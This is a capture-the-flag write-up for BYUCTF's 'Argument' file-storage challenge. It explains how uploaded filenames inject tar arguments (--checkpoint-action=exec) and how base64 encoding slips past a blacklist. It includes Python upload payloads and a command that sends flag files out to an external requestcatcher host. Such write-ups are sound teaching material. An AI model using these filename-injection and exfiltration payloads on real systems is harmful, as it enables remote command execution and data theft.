 <font size = '4'>
<p align = 'center'>
<b>
BYUCTF - Argument Writeup 
</b>
</p>
</font>

<br>
<font size = '3'>

<b>Challenge Description:</b><br>

I just wanted to make a simple application where people can store files. But I'm a good college student and have taken web security classes, so I'm aware of all the vulnerabilities that may exist and made my app perfectly secure! There's no way you'd be able to get the flag...

https://argument.chal.cyberjousting.com

[argument.zip]

<br>

<b>Exploitation:</b><br>

Basically, this challenge uses argument injection using the tar command, using the `--checkpoint` and `--checkpoint-action` arguments which can execute arbitrary commands when certain "checkpoints" are met.

Directory traversal is prevented by blacklisting `..` and `/`.  To bypass this, the command is converted to base64 to then be decoded. Looking at server.py, the filenames are directly used in the tar command, which is where the injection occurs.

The command used is `https://asdfsafasdfs.requestcatcher.com/$(cat /flag*)`, which will send the contents of any file matching /flag* to requestcatcher.

First, a random file is uploaded to create the first checkpoint.
```python
files = {"file": ("--checkpoint=1", "doesn't matter")}
resp = session.request("POST", f"{URL}/api/upload", files=files)
```

To bypass the blacklist, cmd used:
```python
files = {"file": (f"--checkpoint-action=exec=echo '{base64.b64encode(cmd).decode()}' | base64 -d | bash", "doesn't matter")}
resp = session.request("POST", f"{URL}/api/upload", files=files)
```